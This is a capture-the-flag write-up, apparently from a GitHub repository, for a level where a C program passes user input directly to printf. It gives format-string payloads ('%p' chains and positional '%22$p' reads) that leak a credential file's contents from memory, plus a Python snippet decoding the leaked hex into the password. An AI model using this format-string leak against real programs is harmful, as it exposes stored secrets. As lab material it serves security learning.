 # Level02

## printf args

```c
    fgets(username, 100, stdin);
    ...
    printf(username);
```

We can see that the input username is used within printf as format string.
Therefore we can exploit printf to print memory content.

## Memory content

```c
    char token[48];
    ...
    token_file = fopen("/home/users/level03/.pass", "r");
    ...
    len = fread(token, 1, 41, token_file);
```

We can observe that the content of the token is read and stored in memory.

## Printf exploit

printf allows to print all memory aside the format string.
So we can put the content of `token`

```shell
$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p
--[ Password: aaaaaaaaa
*****************************************
0x7fffffffe4f0.(nil).0x61.0x2a2a2a2a2a2a2a2a.0x2a2a2a2a2a2a2a2a.0x7fffffffe6e8.0x1f7ff9a08.0x6161616161616161.0x61.(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).0x100000000.(nil).0x756e505234376848.0x45414a3561733951.0x377a7143574e6758.0x354a35686e475873.0x48336750664b394d does not have access!
```

We can see that the token starts at the 22th printf's param.

```shell
$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %22$p.%23$p.%24$p.%25$p.%26$p
--[ Password: aaaa
*****************************************
0x756e505234376848.0x45414a3561733951.0x377a7143574e6758.0x354a35686e475873.0x48336750664b394d does not have access!
```

## Decode Token

```python
import codecs

out = "0x756e505234376848.0x45414a3561733951.0x377a7143574e6758.0x354a35686e475873.0x48336750664b394d"
splited = out.replace("0x", "").split(".")
dec = "".join([codecs.decode(word, 'hex').decode('utf-8')[::-1] for word in splited])
print(dec)
```